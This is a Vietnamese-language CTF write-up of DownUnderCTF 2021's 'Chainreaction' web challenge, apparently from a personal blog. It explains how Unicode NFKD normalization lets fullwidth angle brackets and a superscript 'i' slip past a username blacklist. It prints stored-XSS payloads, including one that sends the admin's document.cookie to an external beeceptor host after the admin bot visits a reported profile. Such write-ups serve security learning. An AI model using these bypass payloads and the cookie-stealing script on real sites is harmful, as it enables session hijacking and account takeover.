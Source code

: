 ```yaml
---
title: Chainreaction - DownUnderCTF 2021
author: HoangND
date: 2021-09-25 15:55:00 +0700
categories: [Writeups, DownUnderCTF 2021]
tags: [xss, web, unicode normalised]
---
```


## Recon

![image](https://user-images.githubusercontent.com/61985236/134768470-0e313bc6-67b4-487a-9542-1ebcc067b6ce.png)
_Trang chủ_

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký

![image](https://user-images.githubusercontent.com/61985236/134768675-1fec4bb8-fc48-4249-b28e-fa60a39efc4a.png)
_Trang đăng ký_

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý

![image](https://user-images.githubusercontent.com/61985236/134768537-778e468c-5013-4c07-968d-13b121315325.png)
_Trang đăng nhập_

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho

![image](https://user-images.githubusercontent.com/61985236/134768551-75408121-ca67-4966-9463-d759f69f5a25.png){: style="max-width: 100%" } Trang đăng nhập cho developer

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì

![image](https://user-images.githubusercontent.com/61985236/134768594-a9f1049f-714b-4279-84cf-5c907c803954.png){: style="max-width: 60%" } /devchat

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 'Hệ thống được xây dựng bởi các sinh viên của trường đại học' 🤣🤣🤣. Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

![image](https://user-images.githubusercontent.com/61985236/134777616-375ddcc1-647c-47e6-848f-eb48744a8daa.png){: style="max-width: 60%" } /devchat

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.

![image](https://user-images.githubusercontent.com/61985236/134777639-266d3c3e-f3ed-4db0-8554-c2453e777a6f.png)

Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là Canonical Equivalence và Compatibility Equivalence (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.
Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và NFKD, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác NFKD normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request

![image](https://user-images.githubusercontent.com/61985236/134780213-5a10d8ba-d9c7-4964-ac05-88acec404486.png)

Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request

![image](https://user-images.githubusercontent.com/61985236/134780248-c3e390d4-f033-4648-97c8-b909cb7d7b95.png)

Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How ? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau

![image](https://user-images.githubusercontent.com/61985236/134780389-516004ed-1d2d-4b64-9d6b-8ca467f38ae5.png)

Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile

![image](https://user-images.githubusercontent.com/61985236/134780480-6e2a3b83-2fdc-4953-bad2-121450916e25.png)

Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```

![image](https://user-images.githubusercontent.com/61985236/134780741-24c0408b-9dce-4da6-a747-667e10a08d7b.png)

Tiếp theo là ấn report và quan sát bên beeceptor

![image](https://user-images.githubusercontent.com/61985236/134780783-21a99a0e-69dc-4e9e-bb5f-50cbeff2b536.png)

Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi

![image](https://user-images.githubusercontent.com/61985236/134780811-72bcc33c-37a0-43c3-a85a-a9605df6b57f.png)

